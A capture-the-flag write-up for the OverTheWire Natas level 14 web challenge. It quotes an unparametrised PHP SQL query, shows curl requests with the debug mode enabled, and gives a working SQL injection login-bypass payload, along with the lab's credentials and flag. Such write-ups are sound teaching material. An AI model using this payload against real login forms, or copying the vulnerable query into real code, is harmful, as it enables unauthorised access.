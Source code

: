 # Natas14

*	user: `natas14`
*	pass: `Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1`
*	url: `http://natas14.natas.labs.overthewire.org`
*	flag: `AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J`

## Procedure

1.	By analysing the source code, catches the eye a non parametrised
	SQL query

		$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";

	that means [SQL Injection](http://en.wikipedia.org/wiki/SQL_injection)

2.	Furthermore, it's possible to enable a simple debugging mode by
	providing through a `GET` `username`, `password` and `debug`
	parameters. So let's try...

		$ curl -u natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 "http://natas14.natas.labs.overthewire.org/?debug&username=alice&password=s3cr3t"
		<html>
		<head>
		[cut]
		</head>
		<body>
		<h1>natas14</h1>
		<div id="content">
		Executing query: SELECT * from users where username="alice" and password="s3cr3t"<br>Access denied!<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
		</div>
		</body>
		</html>

3.	It seems to work. Let's try something tricky...

		$ curl -u natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 --data "username=1\"%20or%20\"a\"=\"a\"#&password=NotNecessary" "http://natas14.natas.labs.overthewire.org/?debug"
		<html>
		<head>
		[cut]
		</head>
		<body>
		<h1>natas14</h1>
		<div id="content">
		Executing query: SELECT * from users where username="1" or "a"="a"#" and password="NotNecessary"<br>Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
		</div>
		</body>
		</html>

	Yep! It works! The key is to pass as `username` the following string

		1" or "a"="a"#
